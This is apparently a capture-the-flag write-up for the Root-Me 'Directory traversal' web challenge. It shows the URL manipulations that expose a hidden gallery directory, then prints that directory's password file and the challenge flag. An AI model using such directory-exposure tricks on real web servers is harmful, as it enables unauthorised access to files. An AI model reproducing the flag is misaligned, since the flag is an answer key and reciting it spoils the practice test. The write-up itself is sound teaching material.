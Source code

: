 ```yaml
---
title: Directory traversal
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, Path traversal]
---
```


* Points: 25
* Link: [https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)

## Statement

> Find the hidden section of the photo galery.

## Analyzation

Click on the navigate bar, the url is kind of
```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=categories
```

Delete the para
```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=
```

There is a hidden section ```86hwnX2r```. Navigate into it
```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r
```

There is a ```password.txt``` file (see source code)
```
galerie/86hwnX2r/password.txt
```

## Solution

```
http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt
```

The flag is
```
kcb$!Bx@v4Gs9Ez
```